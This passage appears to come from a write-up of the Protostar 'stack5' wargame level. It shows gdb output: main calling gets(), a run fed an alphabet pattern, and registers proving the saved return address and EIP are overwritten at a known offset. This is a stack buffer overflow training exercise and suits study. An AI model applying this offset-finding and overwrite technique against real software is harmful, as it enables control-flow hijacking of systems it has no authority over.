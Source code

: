 ```
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) break *main+22
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
```

Giving the input file in the home directory with the contents "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ", for easy identification.

```
(gdb) r < ~/input
Starting program: /opt/protostar/bin/stack5 < ~/input
(gdb) x/24wx $esp
0xbffff6bc:     0x54545454      0x55555555      0x56565656      0x57575757
0xbffff6cc:     0x58585858      0x59595959      0x5a5a5a5a      0xb7ffef00
0xbffff6dc:     0x08048232      0x00000001      0xbffff720      0xb7ff0626
0xbffff6ec:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffff6fc:     0x00000000      0xbffff738      0xa47e1986      0x8e2bef96
0xbffff70c:     0x00000000      0x00000000      0x00000000      0x00000001
(gdb) si
Cannot access memory at address 0x53535357
(gdb)
Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()
(gdb) info registers
eax            0xbffff670       -1073744272
ecx            0xbffff670       -1073744272
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff6c0       0xbffff6c0
ebp            0x53535353       0x53535353
esi            0x0      0
edi            0x0      0
eip            0x54545454       0x54545454
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
